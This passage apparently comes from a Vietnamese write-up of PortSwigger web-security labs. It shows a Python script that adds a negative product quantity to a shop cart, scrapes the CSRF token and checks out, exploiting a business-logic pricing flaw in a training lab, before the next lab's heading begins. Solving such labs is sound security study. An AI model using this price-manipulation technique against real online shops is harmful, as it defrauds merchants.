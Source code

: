 ```python!
data = {
    'productId': '4',
    'redir': 'PRODUCT',
    'quantity': '-37'
}

response = requests.post(
    url + '/cart',
    cookies=cookies,
    data=data,
    verify=False,
    allow_redirects=False
)

response = requests.get(
    url + '/cart',
    cookies=cookies,
    verify=False,
)

soup = BeautifulSoup(response.text, 'html.parser')
csrf = soup.find('input', {'name': 'csrf'})['value']

data = {
    'csrf': csrf,
}

response = requests.post(
    url + '/cart/checkout',
    cookies=cookies,
    data=data,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/Hkfv40GnT.png)

mục đích của chúng ta đã hoàn thành

![image](https://hackmd.io/_uploads/HJFCVAfnp.png)

## 3. Lab: Low-level logic flaw

link: https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-low-level

### Đề bài

![image](https://hackmd.io/_uploads/SkmBBRM2T.png)
